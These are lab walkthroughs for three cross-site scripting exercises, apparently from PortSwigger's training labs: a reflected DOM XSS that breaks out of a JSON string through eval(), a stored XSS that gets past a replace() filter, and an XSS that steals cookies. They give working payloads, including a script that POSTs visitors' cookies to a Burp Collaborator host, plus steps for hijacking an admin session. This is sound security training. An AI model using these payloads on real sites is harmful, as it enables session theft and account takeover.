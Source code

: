 ### Lab: Reflected DOM XSS

1.  In Burp Suite, go to the Proxy tool and make sure that the Intercept feature is switched on.
2.  Back in the lab, go to the target website and use the search bar to search for a random test string, such as `"[XSS](https://portswigger.net/web-security/cross-site-scripting)"`.
3.  Return to the Proxy tool in Burp Suite and forward the request.
4.  On the Intercept tab, notice that the string is reflected in a JSON response called `search-results`.
5.  From the Site Map, open the `searchResults.js` file and notice that the JSON response is used with an `eval()` function call.
6.  By experimenting with different search strings, you can identify that the JSON response is escaping quotation marks. However, backslash is not being escaped.
7.  To solve this lab, enter the following search term: `\"-alert(1)}//`

As you have injected a backslash and the site isn't escaping them, when the JSON response attempts to escape the opening double-quotes character, it adds a second backslash. The resulting double-backslash causes the escaping to be effectively canceled out. This means that the double-quotes are processed unescaped, which closes the string that should contain the search term.

An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the `alert()` function is called. Finally, a closing curly bracket and two forward slashes close the JSON object early and comment out what would have been the rest of the object. As a result, the response is generated as follows:

`{"searchTerm":"\\"-alert(1)}//", "results":[]}`

### Lab: Stored DOM XSS

Post a comment containing the following vector:

`<><img src=1 onerror=alert(1)>`

In an attempt to prevent [XSS](https://portswigger.net/web-security/cross-site-scripting), the website uses the JavaScript `replace()` function to encode angle brackets. However, when the first argument is a string, the function only replaces the first occurrence. We exploit this vulnerability by simply including an extra set of angle brackets at the beginning of the comment. These angle brackets will be encoded, but any subsequent angle brackets will be unaffected, enabling us to effectively bypass the filter and inject HTML.

### Lab: Exploiting cross-site scripting to steal cookies

1.  Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).
2.  Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3.  Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:  
    `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>`  
    This script will make anyone who views the comment issue a POST request to `burpcollaborator.net` containing their cookie.
4.  Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5.  Take a note of the value of the victim's cookie in the POST body.
6.  Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.

